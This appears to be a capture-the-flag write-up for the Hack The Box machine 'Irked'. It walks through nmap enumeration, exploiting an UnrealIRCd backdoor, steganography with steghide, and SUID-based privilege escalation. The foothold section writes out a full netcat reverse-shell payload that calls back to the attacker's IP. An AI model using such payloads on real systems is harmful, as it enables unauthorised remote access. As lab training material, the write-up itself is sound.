






# Irked
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.117                                                                                             
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 18:23 BST
Nmap scan report for 10.10.10.117 (10.10.10.117)
Host is up (0.15s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
58258/tcp open  unknown
65534/tcp open  unknown
```
```
└─$ nmap -sV -sC -p22,80,111,6697,8067,58258,65534 10.10.10.117 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 18:51 BST
Nmap scan report for 10.10.10.117 (10.10.10.117)
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35649/udp6  status
|   100024  1          44214/tcp6  status
|   100024  1          58258/tcp   status
|_  100024  1          59795/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
58258/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.24 seconds
```
- Web server



## Foothold
- We have an open `irc` port
  - Let's connect
  - Create and edit new network: `irked` in screenshots below
  - Setup connection: change `newserver/6697` to `10.10.10.117/6697`
  - We can add the network to favorites and filter everything out
  - And finally connect







- Nothing interesting except the version of the software
  - Let's use `searchsploit` to search for vulnerabilities


- And we find a few


- Let's test `rce`


- Seems like it works
  - Let's get our foothold
  - payload: `AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.3 6666 >/tmp/f`


## User
- Now we need to privesc
  - Enumerate as usual



- We see interesting file in `/home/djmardov/Documents` directory
  - Let's open it



- It certainly implies stenography and we have an image on the website
  - Let's check it
  - I used `steghide`


- And we have our `user`
## Root
- Basic enumeration
  - `linpeas` or manual
  - `sudo -l` - no results
  - search for `suid` binaries: `find / -perm -4000 -exec ls -lha {} \; 2>/dev/null`



- Strange `vievuser` file


- We have an error that `sh` can't locate `/tmp/listusers`
  - Let's create file and add `whoami` just in case it will execute it


- So, we can pretty much execute anyhing
  - Start listener and add `reverse shell` payload to `/tmp/listusers`
  - Rooted